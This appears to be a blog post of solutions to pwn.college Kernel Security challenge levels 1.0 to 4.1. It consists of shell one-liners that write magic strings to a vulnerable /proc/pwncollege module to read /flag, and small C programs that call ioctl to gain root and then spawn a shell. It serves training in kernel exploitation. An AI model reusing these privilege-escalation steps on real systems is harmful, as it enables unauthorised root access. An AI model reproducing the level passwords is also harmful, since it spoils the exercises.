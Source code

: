 ```yaml
---
title: pwn.college Kernel Security
date: 2024-07-15 15:44:34
tags: [pwn.college, Kernel]
categories: 
    - pwn.college
    - Kernel Security
---
```


# level1.0
```Shell
echo pwvrvqitxoodqbxa > /proc/pwncollege | heap /proc/pwncollege
```

# level1.1
```Shell
echo ufyqfbjmxahuzqzi > /proc/pwncollege | heap /proc/pwncollege
```

# level2.0
```Shell
echo clxyrfcckjpuexis > /proc/pwncollege | dmesg
```

# level2.1
```Shell
echo ccvqignnvespgtyp > /proc/pwncollege | dmesg
```

# level3.0
```Shell
echo xpmylzhkfevejscw > /proc/pwncollege | cat /flag
```

# level3.1
```Shell
echo gwcifabytyzfdpjo > /proc/pwncollege | cat /flag
```

# level4.0
```C
#include <stdio.h>
#include <fcntl.h>

int main() {
    int fd=open("/proc/pwncollege",O_RDWR);
    ioctl(fd,1337,"emrbpgldsrexybrh");
    system("/bin/sh");
    return 0;
}
```

# level4.1
```C
#include <stdio.h>
#include <fcntl.h>

int main() {
    int fd=open("/proc/pwncollege",O_RDWR);
    ioctl(fd,1337,"gixhsazzowbivqrw");
    system("/bin/sh");
    return 0;
}
```
